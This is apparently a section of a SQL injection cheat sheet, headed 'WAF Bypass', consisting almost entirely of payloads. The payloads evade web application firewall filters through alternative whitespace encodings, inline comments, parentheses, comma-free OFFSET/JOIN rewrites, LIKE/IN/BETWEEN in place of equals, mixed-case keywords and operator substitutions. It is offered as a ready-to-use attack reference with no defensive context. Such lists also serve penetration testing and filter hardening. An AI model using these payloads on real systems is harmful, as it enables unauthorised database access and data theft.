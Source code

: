 ### WAF Bypass

No Space (%20) - bypass using whitespace alternatives

```
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments

```
?id=1/*comment*/and/**/1=1/**/--
```

No Whitespace - bypass using parenthesis

```
?id=(1)and(1)=(1)--
```

No Comma - bypass using OFFSET, FROM and JOIN

```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

No Equal - bypass using LIKE/NOT IN/IN/BETWEEN

```
?id=1 and substring(version(),1,1)like(5)
?id=1 and substring(version(),1,1)not in(4,3)
?id=1 and substring(version(),1,1)in(4,3)
?id=1 and substring(version(),1,1) between 3 and 4
```

Blacklist using keywords - bypass using uppercase/lowercase

```
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Blacklist using keywords case insensitive - bypass using an equivalent operator

```
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, BETWEEN, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```
